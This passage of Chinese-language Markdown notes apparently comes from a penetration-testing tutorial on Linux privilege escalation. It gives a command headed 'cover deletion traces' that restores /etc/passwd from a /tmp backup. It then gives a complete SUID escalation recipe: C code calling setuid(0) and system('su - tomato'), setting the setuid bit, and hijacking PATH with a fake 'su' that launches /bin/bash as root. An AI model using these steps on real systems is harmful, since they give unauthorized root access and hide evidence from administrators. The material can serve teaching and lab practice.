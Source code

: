 - 覆盖删除痕迹

```bash
mv /tmp/passwd.bak /etc/passwd
```



****

# Linux suid自定义文件提权

- 编辑一个`demo.c`文件

```c
#include<unistd.h>
void main(){
setuid(0);
setgid(0);
system("su - tomato");
}
```

- 编译

```bash
gcc demo.c -o demo
```

- 给`demo`文件添加`s权限`

```bash
chmod u+s demo
&
chmod 4777 demo
```

![image-20241029160131874](./assets/image-20241029160131874.png)

```bash
[root@localhost tmp]# echo "/bin/bash" > su
[root@localhost tmp]# cat su
/bin/bash
[root@localhost tmp]# chmod 777 su
[root@localhost tmp]# export PATH=/tmp:$PATH
[root@localhost tmp]# echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/root/bin
```
